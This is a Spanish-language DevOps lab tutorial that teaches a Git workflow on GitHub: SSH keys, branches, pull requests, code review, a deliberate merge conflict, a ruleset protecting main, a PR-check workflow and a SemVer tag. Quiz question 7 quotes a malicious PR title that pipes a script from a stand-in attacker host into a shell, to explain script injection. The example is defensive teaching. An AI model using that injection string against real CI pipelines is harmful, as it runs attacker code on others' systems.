

---
tags:
  - laboratorio
  - git
  - ci-cd
  - github-actions
---

# Lab 04: Flujo Git con ramas, pull requests y code review

> Creas un repositorio en GitHub, trabajas con ramas cortas (trunk-based), abres pull requests, haces code review, resuelves un conflicto provocado a propósito, proteges `main` con un ruleset y publicas tu primera versión con un tag.

| Nivel | Duración | Costo | Requisitos |
| --- | --- | --- | --- |
| Básico | ~75 min | Gratis (cuenta personal de GitHub) | [Lab 00](../fundamentos/preparar-entorno.md), Git 2.40+, cuenta de GitHub |

!!! info "Qué vas a aprender"
    - Configurar tu identidad de Git y autenticarte en GitHub con una llave SSH.
    - Trabajar con **trunk-based development** (desarrollo basado en el tronco): ramas que viven horas, no semanas.
    - Escribir commits y títulos de PR con **Conventional Commits** y validarlos en un check automático.
    - Hacer **code review** con comentarios y **suggested changes** (cambios sugeridos).
    - Provocar y resolver un **merge conflict** (conflicto de fusión).
    - Proteger `main` con un **ruleset** (PR obligatorio y status checks), integrar con **squash merge** y versionar con tags SemVer.

!!! warning "Costos y seguridad"
    No cuesta nada, pero vas a crear una llave SSH y un repositorio **público** (los rulesets y los environments con aprobación son gratis en repos públicos de cuentas Free). No subas nunca secretos, archivos `.env` ni datos reales: todo lo que haya en un repo público lo puede leer cualquiera, incluido el historial.

## Antes de empezar

| Herramienta | Versión mínima | Comprobar |
| --- | --- | --- |
| Git | 2.40 (probado con 2.51) | `git --version` |
| OpenSSH | El que trae tu sistema o Git for Windows | `ssh -V` |
| GitHub CLI (`gh`) | Opcional | `gh --version` |

Teoría recomendada: [Git y control de versiones](../../devops/fundamentos/git-control-versiones.md) (estrategias de ramas, merge vs rebase, Conventional Commits, SemVer) y la chuleta de [comandos de Git](../../recursos/comandos/git.md). Para la parte de protección de ramas, [Seguridad del pipeline](../../devsecops/identidades-y-pipeline/seguridad-pipeline.md).

Este repositorio (`lab-devops-app`) lo vas a reutilizar: en el [Lab 05](docker-multistage-compose.md) le añades una app con Docker y en el [Lab 07](github-actions-ci.md) su pipeline de CI.

## Arquitectura



Vas a tener dos PR que tocan la misma línea. Al integrar el primero, el segundo entra en conflicto y lo resuelves en local. Un ruleset impide que nada llegue a `main` sin PR y sin el check en verde.

## Paso a paso

### Paso 1: Crea el repositorio en GitHub

En GitHub: **New repository** → nombre `lab-devops-app`, visibilidad **Public**, y **sin** README, `.gitignore` ni licencia (lo crearás tú en local, así el primer push es más claro).

Público porque, en cuentas gratuitas, los rulesets y las aprobaciones de environments ([Lab 07](github-actions-ci.md)) solo están disponibles en repositorios públicos.

### Paso 2: Configura tu identidad

Cada commit lleva nombre y email del autor. Usa el email **noreply** que te da GitHub (Settings → Emails → "Keep my email addresses private") para no publicar tu correo personal en el historial.

```bash
git config --global user.name "Tu Nombre"
git config --global user.email "123456+tuusuario@users.noreply.github.com"
git config --global init.defaultBranch main
git config --global --list | grep -E "user|init"
```

```text
user.name=Tu Nombre
user.email=123456+tuusuario@users.noreply.github.com
init.defaultbranch=main
```

### Paso 3: Crea una llave SSH y regístrala en GitHub

Con **SSH** te autenticas con un par de llaves en lugar de usuario y contraseña (GitHub no acepta contraseñas para Git). La llave privada no sale de tu PC; a GitHub solo le das la pública. Ed25519 es el algoritmo recomendado hoy. Pon una **passphrase** (frase de contraseña): si alguien copia el archivo, no le sirve sin ella.

=== "Linux/macOS"

    ```bash
    ssh-keygen -t ed25519 -C "123456+tuusuario@users.noreply.github.com"
    eval "$(ssh-agent -s)"
    ssh-add ~/.ssh/id_ed25519
    cat ~/.ssh/id_ed25519.pub
    ```

=== "Windows (PowerShell)"

    ```powershell
    ssh-keygen -t ed25519 -C "123456+tuusuario@users.noreply.github.com"
    # El servicio ssh-agent de Windows viene deshabilitado; activarlo requiere una consola de administrador:
    #   Get-Service ssh-agent | Set-Service -StartupType Manual; Start-Service ssh-agent
    ssh-add $env:USERPROFILE\.ssh\id_ed25519
    Get-Content $env:USERPROFILE\.ssh\id_ed25519.pub
    ```

    Si no quieres tocar servicios, haz este paso desde **Git Bash** con los comandos de Linux/macOS.

Copia la línea que empieza por `ssh-ed25519` y pégala en GitHub: **Settings → SSH and GPG keys → New SSH key** (tipo *Authentication Key*). Luego prueba la conexión:

```bash
ssh -T git@github.com
```

```text
Hi tuusuario! You've successfully authenticated, but GitHub does not provide shell access.
```

La primera vez te pedirá confirmar la huella del servidor; compárala con las [huellas publicadas por GitHub](https://docs.github.com/es/authentication/keeping-your-account-and-data-secure/githubs-ssh-key-fingerprints) antes de escribir `yes`.

### Paso 4: Clona el repositorio y haz el primer commit

```bash
git clone git@github.com:tuusuario/lab-devops-app.git
cd lab-devops-app
```

```text
Cloning into 'lab-devops-app'...
warning: You appear to have cloned an empty repository.
```

Crea dos archivos. El `.gitignore` evita que entren al repo entornos virtuales y secretos (lo usarás en el Lab 05):

```markdown title="README.md"
# lab-devops-app

Repositorio de práctica para los laboratorios de DevOps.

## Uso

Pendiente.
```

```text title=".gitignore"
.venv/
__pycache__/
.env
secrets/
```

```bash
git status --short
git add README.md .gitignore
git commit -m "chore: estructura inicial del repositorio"
git push -u origin main
```

```text
?? .gitignore
?? README.md
[main (root-commit) 6e66269] chore: estructura inicial del repositorio
 2 files changed, 11 insertions(+)
 ...
 * [new branch]      main -> main
branch 'main' set up to track 'origin/main'.
```

El mensaje sigue **Conventional Commits**: `tipo: descripción`. `chore` es mantenimiento sin efecto en la versión; `docs`, `feat` y `fix` los verás enseguida.

### Paso 5: Añade un check automático para los PR

Antes de proteger `main`, necesitas un check que el ruleset pueda exigir. Este workflow hace dos cosas que una persona revisora no debería tener que mirar a mano: que no queden **marcadores de conflicto** (`<<<<<<<`) ni espacios sobrantes, y que el título del PR siga Conventional Commits (con squash merge, el título del PR se convierte en el mensaje del commit en `main`).

```yaml title=".github/workflows/pr-checks.yml"
name: pr-checks

on:
  pull_request:
    branches: [main]
    types: [opened, edited, synchronize, reopened]

permissions:
  contents: read

jobs:
  verificar:
    name: verificar
    runs-on: ubuntu-latest
    timeout-minutes: 5
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          fetch-depth: 0
          persist-credentials: false
      - name: Sin marcadores de conflicto ni espacios sobrantes
        env:
          BASE_REF: ${{ github.base_ref }}
        run: git diff --check "origin/${BASE_REF}...HEAD"
      - name: Título del PR con Conventional Commits
        env:
          TITULO: ${{ github.event.pull_request.title }}
        run: |
          patron='^(feat|fix|docs|chore|refactor|test|ci|build|perf|style|revert)(\([a-z0-9-]+\))?!?: .+'
          if [[ ! "$TITULO" =~ $patron ]]; then
            echo "::error::El título \"$TITULO\" no sigue Conventional Commits"
            exit 1
          fi
          echo "Título correcto: $TITULO"
```

Fíjate en tres detalles de seguridad que se explican en [Seguridad del pipeline](../../devsecops/identidades-y-pipeline/seguridad-pipeline.md): `permissions` mínimos, la action fijada por **SHA** con la versión en un comentario, y el título del PR pasado como variable de entorno (nunca `${{ }}` directamente dentro de `run`, porque un título malicioso se ejecutaría como código).

```bash
git add .github
git commit -m "ci: valida los pull requests"
git push
```

Este último push directo a `main` es el único: a partir del paso siguiente, todo entra por PR.

### Paso 6: Configura el repositorio y protege `main` con un ruleset

Primero, el método de merge. En **Settings → General → Pull Requests**:

- Deja marcado solo **Allow squash merging** y en su mensaje por defecto elige **Pull request title** (o *title and description*).
- Marca **Automatically delete head branches**: la rama remota se borra al integrar el PR.

Después, el ruleset. **Settings → Rules → Rulesets → New ruleset → New branch ruleset**:

| Campo | Valor | Por qué |
| --- | --- | --- |
| Ruleset name | `proteger-main` | |
| Enforcement status | **Active** | En *Evaluate* solo avisa |
| Target branches | **Include default branch** | Aplica a `main` |
| Restrict deletions | Sí | Nadie borra `main` |
| Require linear history | Sí | Historial sin merge commits en `main` |
| Require a pull request before merging | Sí, **Required approvals: 0**, *Require conversation resolution before merging*, allowed merge methods: **Squash** | Con 0 aprobaciones el PR sigue siendo obligatorio; GitHub no deja aprobar tu propio PR |
| Require status checks to pass | Sí, añade `verificar` y marca *Require branches to be up to date before merging* | El check del Paso 5 debe estar en verde y la rama al día con `main` |
| Block force pushes | Sí | Nadie reescribe el historial de `main` |

!!! tip "Si no aparece el check `verificar`"
    GitHub solo sugiere checks que ya se ejecutaron alguna vez. Escribe el nombre a mano o vuelve a este paso después de abrir el primer PR. Si tienes una persona que pueda revisar, invítala como colaboradora y sube *Required approvals* a 1.

Comprueba que funciona intentando un push directo:

```bash
git commit --allow-empty -m "test: push directo"
git push
```

```text
remote: error: GH013: Repository rule violations found for refs/heads/main.
remote: - Changes must be made through a pull request.
 ! [remote rejected] main -> main (push declined due to repository rule violations)
```

Deshaz ese commit local con `git reset --hard origin/main`.

### Paso 7: Abre el primer pull request

En trunk-based la rama vive poco y tiene un solo propósito. Nómbrala por el tipo de cambio:

```bash
git switch -c docs/seccion-uso
# Edita README.md: cambia "Pendiente." por la línea de abajo
git diff
```

```text
@@ -4,4 +4,4 @@ Repositorio de práctica para los laboratorios de DevOps.

 ## Uso

-Pendiente.
+Levanta la app con docker compose up (ver Lab 05).
```

```bash
git commit -am "docs: explica cómo ejecutar la app en local"
git push -u origin docs/seccion-uso
```

GitHub muestra un enlace para crear el PR (o usa **Compare & pull request**). Título: `docs: explica cómo ejecutar la app en local`. En la descripción explica **qué** cambia y **por qué**. Con GitHub CLI sería:

```bash
gh pr create --base main --title "docs: explica cómo ejecutar la app en local" --body "Añade la sección de uso del README."
```

En la pestaña **Checks** verás `verificar` en verde. Prueba a editar el título a `Update README` y observa cómo falla; vuelve a ponerlo bien.

### Paso 8: Haz code review con un suggested change

Ve a **Files changed**, pasa el cursor sobre la línea modificada y pulsa **+**. Escribe un comentario y usa el botón de sugerencia (o escribe el bloque a mano):

````markdown
Mejor con formato de código y el flag que reconstruye la imagen:

```suggestion
Levanta la app con `docker compose up --build` (ver Lab 05).
```
````

Publica el comentario con **Start a review** → **Submit review** → *Comment* (en tu propio PR no puedes elegir *Approve* ni *Request changes*). Ahora, como autora, pulsa **Commit suggestion**: GitHub crea un commit en tu rama. Por eso, antes de seguir en local, siempre trae los cambios:

```bash
git pull
```

```text
Updating f899f79..f4aa86c
Fast-forward
 README.md | 2 +-
```

El commit de la sugerencia se llama `Update README.md`, que no sigue la convención. No pasa nada: con squash merge, a `main` solo llega el título del PR.

### Paso 9: Provoca y resuelve un conflicto

Simula a una compañera que cambia la misma línea en otra rama. Vuelve a `main` y crea una segunda rama:

```bash
git switch main
git switch -c docs/requisitos
# Edita README.md: cambia "Pendiente." por "Requisitos: Docker y Git (ver Lab 00)."
git commit -am "docs: lista los requisitos"
git push -u origin docs/requisitos
```

Abre el PR #2 con título `docs: lista los requisitos` e intégralo con **Squash and merge**. Ahora vuelve al PR #1: GitHub dice **This branch has conflicts that must be resolved**. Resuélvelo en local integrando `main` en tu rama:

```bash
git switch docs/seccion-uso
git fetch origin
git merge origin/main
```

```text
Auto-merging README.md
CONFLICT (content): Merge conflict in README.md
Automatic merge failed; fix conflicts and then commit the result.
```

```bash
git status
```

```text
On branch docs/seccion-uso
You have unmerged paths.
  (fix conflicts and run "git commit")
  (use "git merge --abort" to abort the merge)

Unmerged paths:
  (use "git add <file>..." to mark resolution)
    both modified:   README.md
```

Git marcó en el archivo las dos versiones. `HEAD` es tu rama; `origin/main` es lo que llegó con el PR #2:

```text
<<<<<<< HEAD
Levanta la app con `docker compose up --build` (ver Lab 05).
=======
Requisitos: Docker y Git (ver Lab 00).
>>>>>>> origin/main
```

`git diff --check` (lo mismo que hace tu check en CI) detecta que aún quedan marcadores:

```text
README.md:7: leftover conflict marker
README.md:9: leftover conflict marker
README.md:11: leftover conflict marker
```

Resolver un conflicto es **decidir qué contenido es el correcto**, no elegir "el mío". Aquí ambos cambios valen, así que deja los dos y borra los marcadores:

```markdown title="README.md (sección Uso resuelta)"
## Uso

Requisitos: Docker y Git (ver Lab 00).

Levanta la app con `docker compose up --build` (ver Lab 05).
```

```bash
git diff --check        # sin salida: ya no hay marcadores
git add README.md
git commit --no-edit
git push
git log --oneline --graph -6
```

```text
*   d9c2ab7 Merge remote-tracking branch 'origin/main' into docs/seccion-uso
|\
| * a802687 docs: lista los requisitos (#2)
* | f4aa86c Update README.md
* | f899f79 docs: explica cómo ejecutar la app en local
|/
* 03ae2a6 ci: valida los pull requests
* 6e66269 chore: estructura inicial del repositorio
```

!!! note "¿Merge o rebase para actualizar tu rama?"
    Con `git rebase origin/main` el historial de tu rama queda lineal, pero tienes que resolver el conflicto **una vez por cada commit** que toque esas líneas y luego publicar con `git push --force-with-lease`. Con `git merge` lo resuelves una sola vez y no reescribes nada. Como el squash merge aplasta todo en un commit, aquí el merge es más sencillo. Si haces rebase, ojo: durante un rebase `HEAD` es `main` y "la otra" versión es tu commit, al revés que en el merge.

### Paso 10: Integra con squash merge y limpia

Con el check en verde y las conversaciones resueltas, pulsa **Squash and merge**. Revisa el mensaje propuesto (el título del PR, con `(#1)` al final) y confirma. Luego actualiza tu copia local:

```bash
git switch main
git pull --prune
git log --oneline
```

```text
 - [deleted]         (none)     -> origin/docs/seccion-uso
Fast-forward
 README.md | 4 +++-
75a6b4d docs: explica cómo ejecutar la app en local (#1)
a802687 docs: lista los requisitos (#2)
03ae2a6 ci: valida los pull requests
6e66269 chore: estructura inicial del repositorio
```

Cuatro commits limpios en `main`, uno por cambio. Ahora borra la rama local:

```bash
git branch -d docs/seccion-uso
```

```text
error: the branch 'docs/seccion-uso' is not fully merged
```

Es normal: el squash crea un commit **nuevo**, así que Git no reconoce tus commits originales dentro de `main`. Como verificaste en GitHub que el PR está integrado, fuerza el borrado con `git branch -D docs/seccion-uso` (y lo mismo con `docs/requisitos`).

### Paso 11: Publica la versión con un tag

Un **annotated tag** (tag anotado) guarda autor, fecha y mensaje; es el que se usa para versiones. Como el proyecto está empezando, la versión es `0.1.0` (con MAJOR en 0 la API aún puede cambiar).

```bash
git tag -a v0.1.0 -m "Primera versión: README con instrucciones de uso"
git push origin v0.1.0
git tag -n
```

```text
 * [new tag]         v0.1.0 -> v0.1.0
v0.1.0          Primera versión: README con instrucciones de uso
```

Opcional: en GitHub, **Releases → Draft a new release**, elige `v0.1.0` y pulsa **Generate release notes**. Las próximas versiones se deciden por los commits: un `fix:` lleva a `v0.1.1`, un `feat:` a `v0.2.0`, y un `feat!:` o `BREAKING CHANGE:` a la siguiente MAJOR.

## Verificación

| Comprobación | Cómo | Resultado esperado |
| --- | --- | --- |
| Autenticación SSH | `ssh -T git@github.com` | `Hi tuusuario! You've successfully authenticated...` |
| `main` protegida | `git push` de un commit directo a `main` | `GH013: Repository rule violations found` |
| Historial lineal | `git log --oneline --graph origin/main` | Una sola línea, sin merge commits |
| Mensajes convencionales | `git log --format=%s origin/main` | Todos empiezan por `tipo:`; los PR terminan en `(#N)` |
| Tag publicado | `git ls-remote --tags origin` | Aparece `refs/tags/v0.1.0` |
| Check obligatorio | Abre un PR con título `Update README` | `verificar` en rojo y el botón de merge bloqueado |

## Retos extra

1. Añade un archivo `.github/CODEOWNERS` que te asigne `.github/workflows/` y activa *Require review from Code Owners* en el ruleset. Pista: con una sola persona en el repo verás por qué en equipos reales hace falta una segunda revisora.
2. Firma tus commits con tu llave SSH (`gpg.format ssh`) y activa *Require signed commits* en el ruleset. Pista: la llave debe estar registrada también como *Signing Key*.
3. Instala un hook `commit-msg` local que rechace mensajes fuera de Conventional Commits, reutilizando la expresión regular del workflow.
4. Repite el Paso 9 resolviendo el conflicto con `git rebase` y `git push --force-with-lease`. ¿Qué pasa si usas `--force` y alguien subió un commit a tu rama mientras tanto?

## Limpieza

No hay nada que facture. Conserva el repositorio `lab-devops-app`: lo usan los Labs 05 y 07. Si quieres borrarlo al final del recorrido: **Settings → General → Danger Zone → Delete this repository**. Las llaves SSH que ya no uses, bórralas en **Settings → SSH and GPG keys** y en `~/.ssh/`.

## Problemas comunes

| Síntoma | Causa | Solución |
| --- | --- | --- |
| `Permission denied (publickey)` | La llave no está en GitHub, el agente no la tiene cargada o clonaste por HTTPS | `ssh-add -l`, revisa la llave en Settings y usa la URL `git@github.com:...` (`git remote -v`) |
| `Author identity unknown` al hacer commit | No configuraste `user.name` / `user.email` | Paso 2 |
| `GH013: Repository rule violations` | Push directo a `main` con el ruleset activo | Es lo esperado: crea una rama y abre un PR |
| El ruleset no ofrece el check `verificar` | El workflow nunca se ejecutó | Abre un PR para que corra una vez, o escribe el nombre exacto del job |
| El check falla con "leftover conflict marker" | Hiciste commit con marcadores `<<<<<<<` | Edita el archivo, quita los marcadores, `git commit` y `git push` |
| `Updates were rejected because the tip of your current branch is behind` | Hay commits en el remoto (por ejemplo, una sugerencia aceptada) | `git pull` y vuelve a hacer push |
| `git branch -d` dice *not fully merged* tras un squash | El squash crea un commit nuevo | Comprueba en GitHub que el PR está integrado y usa `git branch -D` |

Para un método general de diagnóstico, ver [Troubleshooting](../../devops/operacion/troubleshooting.md).

## Información complementaria

- **Trunk-based development**: una rama principal siempre desplegable y ramas de horas; reduce conflictos grandes. Ver [Estrategias de branching](../../devops/fundamentos/git-control-versiones.md#estrategias-de-branching).
- **Squash merge**: cada PR llega a `main` como un único commit con el título del PR, fácil de leer y de revertir con `git revert`. Ver [Merge vs rebase](../../devops/fundamentos/git-control-versiones.md#merge-vs-rebase).
- **Ruleset**: la versión moderna de las *branch protection rules*; se pueden apilar, tienen modo *Evaluate* y lista de *bypass*. Ver [Branch protection y rulesets](../../devsecops/identidades-y-pipeline/seguridad-pipeline.md#branch-protection-y-rulesets).
- **Status check obligatorio**: convierte "acuérdate de revisar X" en una regla que no se puede saltar. En el [Lab 07](github-actions-ci.md) añadirás lint, tests y build.
- **SemVer y tags**: el tag es el disparador habitual del pipeline de release. Ver [Tags y versionado semántico](../../devops/fundamentos/git-control-versiones.md#tags-y-versionado-semantico).

En el trabajo real este flujo es el día a día: nadie hace push a `main`, cada cambio (código, infraestructura o configuración) entra por PR con checks y revisión, y el historial de PR es la evidencia que piden las auditorías de cambios.

## Documentación oficial

- [Generar una nueva clave SSH y agregarla al ssh-agent](https://docs.github.com/es/authentication/connecting-to-github-with-ssh/generating-a-new-ssh-key-and-adding-it-to-the-ssh-agent)
- [Acerca de los conjuntos de reglas (rulesets)](https://docs.github.com/es/repositories/configuring-branches-and-merges-in-your-repository/managing-rulesets/about-rulesets)
- [Reglas disponibles para los rulesets](https://docs.github.com/es/repositories/configuring-branches-and-merges-in-your-repository/managing-rulesets/available-rules-for-rulesets)
- [Comentar en una solicitud de cambios (suggested changes)](https://docs.github.com/es/pull-requests/collaborating-with-pull-requests/reviewing-changes-in-pull-requests/commenting-on-a-pull-request)
- [Resolver un conflicto de fusión con la línea de comandos](https://docs.github.com/es/pull-requests/collaborating-with-pull-requests/addressing-merge-conflicts/resolving-a-merge-conflict-using-the-command-line)
- [Pro Git: ramificaciones en Git](https://git-scm.com/book/es/v2/Ramificaciones-en-Git-Procedimientos-B%C3%A1sicos-para-Ramificar-y-Fusionar)
- [Conventional Commits 1.0.0](https://www.conventionalcommits.org/es/v1.0.0/)
- [Versionado semántico 2.0.0](https://semver.org/lang/es/)

## Preguntas para verificar el aprendizaje

??? question "1. ¿Por qué usas el email noreply de GitHub en `user.email`?"
    Porque el email de cada commit queda en el historial y en un repo público lo puede ver cualquiera. El email noreply asocia los commits a tu cuenta sin exponer tu correo personal.

??? question "2. ¿Qué parte de la llave SSH subes a GitHub y qué pasa si alguien roba el archivo `id_ed25519`?"
    Solo la pública (`.pub`). Si roban la privada y tiene passphrase, no pueden usarla sin la frase; aun así, bórrala de GitHub y genera otra. Sin passphrase, tendrían acceso a tus repos hasta que la revoques.

??? question "3. ¿Qué pasaría si configuras el ruleset con 1 aprobación obligatoria y eres la única persona del repo?"
    No podrías integrar ningún PR: GitHub no permite aprobar tu propio PR. Tendrías que añadir una colaboradora, bajar a 0 aprobaciones o añadirte a la lista de *bypass* (que anula el control).

??? question "4. Al hacer `git merge origin/main` aparece un conflicto. ¿Qué significan `HEAD` y `origin/main` en los marcadores?"
    `HEAD` es la versión de la rama en la que estás (tu cambio) y `origin/main` la que llega de la otra rama. En un rebase es al revés: `HEAD` es la base sobre la que se reaplican tus commits.

??? question "5. ¿Por qué el título del PR importa más que los mensajes de cada commit cuando usas squash merge?"
    Porque el squash convierte todo el PR en un solo commit en `main` cuyo mensaje es, por defecto, el título del PR. Los commits intermedios (como `Update README.md`) no llegan a `main`.

??? question "6. ¿Qué pasaría si quitas *Require branches to be up to date before merging*?"
    Podrías integrar un PR cuyo check pasó contra una versión vieja de `main`. Dos PR que por separado están en verde pueden romper `main` al combinarse; con la opción activa, el check se vuelve a ejecutar sobre la rama actualizada.

??? question "7. ¿Por qué el workflow pasa el título del PR por `env` en lugar de usar `${{ github.event.pull_request.title }}` dentro de `run`?"
    Porque las expresiones `${{ }}` se sustituyen antes de que la shell lea el script. Un título como `"; curl atacante.sh | sh; "` se ejecutaría como código (*script injection*). Como variable de entorno, la shell lo trata como texto.

??? question "8. Corregiste un bug y la versión actual es `v0.1.0`. ¿Qué tag publicas? ¿Y si el cambio elimina un endpoint?"
    Un bug es un `fix` → `v0.1.1`. Eliminar un endpoint es incompatible: con MAJOR en 0, SemVer permite cambios incompatibles en cualquier versión, pero lo habitual es subir MINOR (`v0.2.0`); a partir de `1.0.0` sería `v2.0.0`.

## Notas relacionadas

**DevOps**

- [Git y control de versiones](../../devops/fundamentos/git-control-versiones.md)
- [Cultura DevOps y métricas DORA](../../devops/fundamentos/cultura-metricas-dora.md)
- [Integración continua (CI)](../../devops/ci-cd/integracion-continua.md)

**DevSecOps**

- [Seguridad del pipeline](../../devsecops/identidades-y-pipeline/seguridad-pipeline.md)
- [Seguridad del código](../../devsecops/codigo-y-dependencias/seguridad-codigo.md)

**Recursos**

- [Comandos de Git](../../recursos/comandos/git.md)
- [Sintaxis de GitHub Actions](../../recursos/sintaxis/github-actions.md)

**Labs**

- Lab anterior: [Lab 03: Script en Python para analizar logs](../fundamentos/python-analizar-logs.md)
- Lab siguiente: [Lab 05: Imagen multi-stage y Docker Compose](docker-multistage-compose.md)
